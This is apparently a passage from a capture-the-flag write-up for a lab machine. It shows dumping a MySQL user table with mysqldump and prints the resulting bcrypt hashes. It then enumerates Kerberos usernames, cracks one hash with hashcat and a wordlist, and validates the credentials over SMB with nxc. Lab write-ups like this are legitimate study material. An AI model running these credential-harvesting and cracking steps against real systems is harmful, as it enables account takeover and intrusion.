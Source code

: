 ```php
}
?>
```

Searching around in this xampp directory, leads us to the mysql folder, it has a binary with which we can dump the database in a readable format (as opposed to using `type users.ibd`)
```powershell
C:\xampp\mysql\bin\mysqldump.exe -u certificate_webapp_user -p'$PASS' certificate_webapp_db
```
This reveals some users with their hashes: I reformatted it for readability.
```text
username,password
Lorra.AAA,$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG
Sara1200,$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK
Johney,$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq
havokww,$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti
stev,$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2
sara.b,$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
```


The next obvious thing is to try and crack these hashes, even though they're bcrypt which is pretty computationally complex, what else do we have? Oh we also try a kerbrute to see which usernames might be valid elsewhere.

```bash
kerbrute userenum -d certificate.htb --dc dc01.certificate.htb users.txt
```
```

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 08/01/25 - Ronnie Flathers @ropnop

2025/08/01 09:54:26 >  Using KDC(s):
2025/08/01 09:54:26 >   dc01.certificate.htb:88

2025/08/01 09:54:26 >  [+] VALID USERNAME:       sara.b@certificate.htb
2025/08/01 09:54:31 >  Done! Tested 12 usernames (1 valid) in 5.511 seconds

```

```bash
hashcat users.hashes /seclists/rockyou.txt
# $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Bl----

```
reveals one crack for... sara.b

I verified these credentials with:
```bash
nxc smb certificate.htb -u sara.b -p $pass
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.71     445    DC01             [+] certificate.htb\sara.b:$pass
```
